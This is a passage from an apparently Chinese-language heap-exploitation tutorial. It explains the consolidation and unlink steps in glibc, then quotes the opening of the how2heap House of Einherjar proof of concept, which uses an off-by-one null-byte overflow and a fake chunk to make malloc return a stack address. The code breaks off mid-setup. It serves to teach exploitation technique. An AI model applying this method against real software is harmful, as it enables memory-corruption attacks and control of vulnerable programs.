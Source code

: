 先把前一个堆块的位置找到即 p-p->prev\_inuse

修改 P -> size 为 P -> size + FD -> size(以此来表示 size 大小上已经合并)

让 FD 进入 unlink 函数

### unlink 操作

我们使用 how2heap 中的 House of einherjar 来进行演示

demo 如下：

```bash
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>
#include <assert.h>

int main()
{
    /*
     * This modification to The House of Enherjar, made by Huascar Tejeda - @htejeda, works with the tcache-option enabled on glibc-2.31.
     * The House of Einherjar uses an off-by-one overflow with a null byte to control the pointers returned by malloc().
     * It has the additional requirement of a heap leak. 
     * 
     * After filling the tcache list to bypass the restriction of consolidating with a fake chunk,
     * we target the unsorted bin (instead of the small bin) by creating the fake chunk in the heap.
     * The following restriction for normal bins won't allow us to create chunks bigger than the memory
     * allocated from the system in this arena:
     *
     * https://sourceware.org/git/?p=glibc.git;a=commit;f=malloc/malloc.c;h=b90ddd08f6dd688e651df9ee89ca3a69ff88cd0c */

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    printf("Welcome to House of Einherjar 2!\n");
    printf("Tested on Ubuntu 20.04 64bit (glibc-2.31).\n");
    printf("This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

    printf("This file demonstrates a tcache poisoning attack by tricking malloc into\n"
           "returning a pointer to an arbitrary location (in this case, the stack).\n");

    // prepare the target
    intptr_t stack_var[4];
    printf("\nThe address we want malloc() to return is %p.\n", (char *) &stack_var);

    printf("\nWe allocate 0x38 bytes for 'a' and use it to create a fake chunk\n");
    intptr_t *a = malloc(0x38);

    // create a fake chunk
    printf("\nWe create a fake chunk preferably before the chunk(s) we want to overlap, and we must know its address.\n");
    printf("We set our fwd and bck pointers to point at the fake_chunk in order to pass the unlink checks\n");

    a[0] = 0;    // prev_size (Not Used)
    a[1] = 0x60; // size
    a[2] = (size_t) a; // fwd
    a[3] = (size_t) a; // bck
```
